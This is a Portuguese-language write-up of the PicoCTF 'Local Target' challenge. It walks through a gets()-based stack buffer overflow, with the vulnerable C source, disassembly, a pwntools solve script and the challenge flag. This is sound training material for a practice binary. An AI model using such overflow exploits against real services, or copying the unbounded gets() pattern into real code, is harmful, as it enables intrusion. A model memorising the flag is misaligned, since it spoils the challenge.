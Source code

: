 # WriteUp: Local Target
## Descrição do Desafio:
**Autor**: OverTheWire.org / LT 'syreal' Jones \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/399?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Descrição**: 
> Smash the Stack \
> Can you overflow the buffer and modify the other local variable?

## Passo a passo da solução
### 1. Análise do arquivo fonte fornecido
Este desafio já fornece o arquivo fonte, `.c`, tornando as coisas relativamente mais fáceis.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
#include <stdio.h>
#include <stdlib.h>



int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}

```

{% endcode %}

Observando o código, podemos ver que ele abre a **flag** e imprime ela caso a variável `num` seja igual a 65. Podemos também notar que a variável tem seu valor atribuído logo na declaração, e não tem o valor alterado em mais nenhum local, porém outra coisa chama a atenção, logo após a declaração da variável `num` inicia uma sequência de código responsável por pedir ao usuário para escrever alguma coisa na variável `input`, que tem tamanho máximo de 15 caracteres.

E é aqui que está a vulnerabilidade, a entrada do usuário está sendo capturada pela função `gets`, que não contém nenhum limitador, logo o usuário pode escrever quantos caracteres ele quiser.

### 2. Exploit
Descobrimos que podemos facilmente estourar o *buffer*, agora temos que descobrir onde está a variável `num` para reescrevermos o valor dela. Nessa parte podemos fazer de duas formas, a primeira é imprimir a pilha e procurar nela o valor 64 (há alguns, mas com poucas tentativas você encontraria o correto), e a segunda é olhando para o assembly, isso nos mostra o local exato da variável.

```bash 
Dump of assembler code for function main:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdb4]        # 0x402004
   0x0000000000401250 <+26>:    mov    eax,0x0
   0x0000000000401255 <+31>:    call   0x4010f0 <printf@plt>
   0x000000000040125a <+36>:    mov    rax,QWORD PTR [rip+0x2e0f]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x0000000000401261 <+43>:    mov    rdi,rax
   0x0000000000401264 <+46>:    call   0x401120 <fflush@plt>
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
=> 0x000000000040127a <+68>:    mov    edi,0xa
   0x000000000040127f <+73>:    call   0x4010c0 <putchar@plt>
   0x0000000000401284 <+78>:    mov    eax,DWORD PTR [rbp-0x8]
   0x0000000000401287 <+81>:    mov    esi,eax
   0x0000000000401289 <+83>:    lea    rdi,[rip+0xd85]        # 0x402015
   0x0000000000401290 <+90>:    mov    eax,0x0
   0x0000000000401295 <+95>:    call   0x4010f0 <printf@plt>
```

A sequência acima é o início da função `main`, mas o que nós queremos são as instruções próximas da `printf` que imprime o valor do `num` (no caso é o último `printf`). Como o `printf` está imprimindo o valor de `num` por meio das **strings de formato**, ele deve receber o valor dela como parâmetro, e analisando as instruções antes da chamada da função, vemos duas que se destacam: `mov    eax,DWORD PTR [rbp-0x8]` e `lea    rdi,[rip+0xd85]        # 0x402015`. 

A primeira é o `num` e a segunda é a *string* inteira. Note que a instrução pega o valor do `num` subtraindo 8 do `rbp`, então nós podemos fazer a mesma coisa e descobrir a posição.

```bash
pwndbg> print $rbp - 8
$2 = (void *) 0x7fffffffdc68
```

E pronto, agora é só pegar o endereço de início do *input* e subtrair pelo valor encontrado. Como resultado descobriremos que devemos escrever 24 caracteres para chegar no `num` sendo o 25º o que vai reescrever.

### 3. Solução
A verificação no código pede para o valor de `num` ser 65 em decimal, esse número representa o caractere "A" na tabela ascii, então podemos resolver diretamente pelo terminal, ou usando um *script* simples em python.

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

p = remote(ip, porta)

payload = flat(
    b"A" * 25
)

p.sendlineafter(b": ", payload)
print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
